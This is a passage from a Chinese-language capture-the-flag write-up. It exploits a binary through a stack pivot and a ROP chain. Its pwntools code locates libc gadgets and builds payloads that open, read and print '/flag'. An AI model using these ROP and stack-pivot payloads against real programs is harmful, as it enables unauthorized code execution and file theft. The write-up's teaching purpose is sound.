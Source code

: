 由于要用到libc里的pop |ret也可以直接计算一下

![](../../images/2024-10-24-18-23-39-image.png)

```python
def search_asm_libc(str):
    gadget = asm(str)
    search_addr = 0
    for addr in libc.search(gadget):
        print(hex(addr))
        if addr > 0x100000:
            search_addr = addr
            break
    return search_addr


pop_rdi = libc_base + search_asm_libc(r'pop rdi; ret')
#pop_rsi = libc_base + 0x2be51
print(format(pop_rdi, 'x'))


pop_rsi = libc_base + search_asm_libc(r'pop rsi; ret')
#pop_rsi = libc_base + 0x2bb69
print(format(pop_rsi, 'x'))

pop_rdx = libc_base + search_asm_libc(r'pop rdx; pop rbx; ret')
#pop_rdx = libc_base + 0x904a9
print(format(pop_rdx, 'x'))
```

算好之后就可以再来一次read了

这一次通过两次leave把rsp=buf+0x300+8

然后构造open('/flag', 0)的参数

之后要再次pop新rbp=buf + 0x500 +80，再调用read，也就是新一轮栈在buf + 0x500

```python
payload = ((b'/flag\x00\x00\x00' +
            p64(0x04011C5) + p64(buf + 0x300) + p64(pop_rsi) + p64(0) + p64(open_addr) +
            p64(0x04011C8) + p64(buf + 0x500+0x80) + p64(0x04011EF)
            ).ljust(0x80,b'\x00') + p64(buf+0x300) + p64(0x40120F))
print(len(payload))
p.sendline(payload)
```

栈来到了buf + 0x500这边，这次调用read读然后直接put

```python
payload = ((b'BBBBBBB\x00' +
            p64(pop_rdx) + p64(0x100) + p64(0) +
            p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(buf) +
            p64(read_plt) +
            p64(pop_rdi) + p64(buf) + p64(write_plt)
            ).ljust(0x80,b'\x00') + p64(buf+0x500) + p64(0x40120F))
print(len(payload))
p.sendline(payload)
```

最后直接接收flag就好了

![](../../images/2024-10-24-18-25-55-image.png)

---

@PHOEXINA
